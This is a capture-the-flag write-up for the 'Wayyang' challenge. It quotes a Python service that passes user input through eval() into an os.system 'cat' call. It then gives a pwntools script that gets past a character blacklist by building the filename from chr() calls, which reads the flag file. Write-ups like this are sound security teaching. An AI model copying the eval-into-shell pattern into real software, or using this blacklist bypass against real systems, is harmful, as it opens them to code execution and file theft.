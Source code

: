 # Wayyang

![chall](./Images/wayyang.PNG)

[Files](./Files/pwn_wayyang.zip)
In this challenge we are given a source file for a python program running on a server. Looking at the code we can see the user is greeted with a menu.

```python
What would you like to do today?
1. Weather
2. Time
3. Tiktok of the day
4. Read straits times
5. Get flag
6. Exit
>>
```

Looking through the menu, option 4 stands outs.

```python
elif choice == 4:
        filename = input("which news article you want babe :)   ")
        not_allowed = [char for char in FLAG_FILE]

        for char in filename:
            if char in not_allowed:
                print("NICE TRY. WAYYANG SEE YOU!!!!!")
                os.system(f"cat news.txt")
                exit()

        try:
            os.system(f"cat {eval(filename)}")
        except:
            pass
```

Note: `FLAG_FILE = "FLAG"`
We have to some how obfuscate the string "FLAG" so that the call to `eval` reconstructs it and passes it to the system call to `cat`. One way we can do this is to use `chr()` to convert an integer into a character. We can then use '+' to build the characters into the string.

```python
>>>'+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG'])
#'chr(70)+chr(76)+chr(65)+chr(71)'
>>>eval('+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG']))
#'FLAG'
```

#### Code

```python
from pwn import *

r = remote("fun.chall.seetf.sg", 50008)
r.sendlineafter(b">> ",b"4")
payload = '+'.join(["chr(" + str(ord(c)) + ")" for c in 'FLAG'])
r.sendlineafter(b":)   ", payload.encode())

print(r.recvall())
r.close()
#b'SEE{wayyang_as_a_service_621331e420c46e29cfde50f66ad184cc}'
```

